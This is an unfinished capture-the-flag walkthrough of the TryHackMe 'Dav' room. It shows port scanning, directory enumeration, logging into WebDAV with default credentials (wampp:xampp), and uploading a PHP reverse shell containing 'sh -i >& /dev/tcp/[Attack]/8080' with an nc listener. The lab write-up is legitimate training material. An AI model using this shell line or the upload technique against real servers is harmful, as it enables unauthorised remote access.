 <p align="center">February 25, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{295}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Dav}}$$
</h1>
<p align="center">boot2root machine for FIT and bsides guatemala CTF</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/bsidesgtdav">DAV</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/101db08a-b506-4e4a-9de8-f4569bfaca85">
  <img height="150px" src="https://github.com/user-attachments/assets/7ce0c59b-c286-4719-94f5-85168145d75f">
</p>

<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Walkthrough](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Super Secret Password](#1.1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Room complete](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [My journey](#3)


<h2>Task 1. Dav<a id='1'></a></h2>

<p>Read user.txt and root.txt</p>

<pre><code># root@ip-[Attack]:~# rustscan -a [Target] --ulimit 5000 -- -vvv -sV -sC [Target]
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time \u231b

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open [Target]:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-01 01:31 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
Initiating Ping Scan at 01:31
Scanning 2 hosts [2 ports/host]
Completed Ping Scan at 01:31, 0.00s elapsed (2 total hosts)
Initiating Parallel DNS resolution of 2 hosts. at 01:31
Completed Parallel DNS resolution of 2 hosts. at 01:31, 0.00s elapsed
DNS resolution of 2 IPs took 0.00s. Mode: Async [#: 1, OK: 2, NX: 0, DR: 0, SF: 0, TR: 2, CN: 0]
Initiating Connect Scan at 01:31
Scanning 2 hosts [1 port/host]
Discovered open port 80/tcp on [Target]
Discovered open port 80/tcp on [Target]
Completed Connect Scan at 01:31, 0.00s elapsed (2 total ports)
Initiating Service scan at 01:31
Scanning 2 services on 2 hosts
Completed Service scan at 01:31, 6.04s elapsed (2 services on 2 hosts)
NSE: Script scanning 2 hosts.
NSE: Starting runlevel 1 (of 3) scan.
</code></pre><br>

![image](https://github.com/user-attachments/assets/e88ec0d9-ffdb-4f01-8727-d19ebc90d8bf)

<pre><code># root@ip-[Attack]: dirb http://[Target]

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov  1 01:38:01 2024
URL_BASE: http://[Target]/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://[Target]/ ----
+ http://[Target]/index.html (CODE:200|SIZE:11321)                                                               
+ http://[Target]/server-status (CODE:403|SIZE:301)                                                              
+ http://[Target]/webdav (CODE:401|SIZE:460)                                                                     
                                                                                                                      
-----------------
END_TIME: Fri Nov  1 01:38:06 2024
DOWNLOADED: 4612 - FOUND: 3

</code></pre><br>

<p> The default credentials are generally jigsaw:jigsaw(failed) adm1n:p@s$word(failed) wampp:xampp(success).</p>
<br>

![image](https://github.com/user-attachments/assets/76e929c1-d571-46d3-9730-8a09e635915c)

![image](https://github.com/user-attachments/assets/cb7bc450-34ee-466e-be50-bdea7c84cf4c)


![image](https://github.com/user-attachments/assets/e064eb40-ffb6-483f-ac83-7a8c4c61830a)


![image](https://github.com/user-attachments/assets/f884a59b-3b1f-461b-9ece-f1bea833c395)

![image](https://github.com/user-attachments/assets/6db03da3-7c4b-49b0-b7b8-ac684965bdae)

![image](https://github.com/user-attachments/assets/1e396f23-fb41-4b12-88d8-b66776b7eea9)


wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

![image](https://github.com/user-attachments/assets/daa5c6e3-86f6-438a-8a0a-ed0065dac410)


![image](https://github.com/user-attachments/assets/eca0ec04-bdbb-4574-9399-291b9359f4b5)



<pre><code># root@ip-[Attack]:~# apt install cadaver
</code></pre><br>

<pre><code># root@ip-[Attack]:~# cadaver http://[Target]/webdav/
Authentication required for webdav on server `[Target]':
Username: wampp
Password: 
dav:/webdav/> 
</code></pre><br>

![image](https://github.com/user-attachments/assets/23b64686-dfca-4f6e-a1b5-c96a3b0cd238)

<pre><code>sh -i >& /dev/tcp/[Attack]/8080 0>&1
</code></pre><br>

<pre><code># root@ip-[Attack]:~# curl -u "wampp:xampp" -X PUT http://[Target]/webdav/shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at [Target] Port 80</address>
</body></html>
</code></pre><br>

![image](https://github.com/user-attachments/assets/82f2ddb8-173c-4368-862e-8cec0c691b70)

<pre><code># dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 42 bytes succeeded.
dav:/webdav/> 
</code></pre><br>


<pre><code># root@ip-[Attack]:~# nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
</code></pre><br>


<h1>................... to be continued .....................</h1>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 1.1. <em>user.txt</em><br><a id='1.1'></a>
>> <code><strong>_____</strong></code>

<br>

> 1.2. <em>root.txt</em><br><a id='1.2'></a>
>> <code><strong>_____</strong></code>

<br>


<h2>Room Complete<a id='2'></a></h2>
<p>Keep learning, keep growing!<br>



<h2>My Journey<a id='3'></a></h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>




<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>


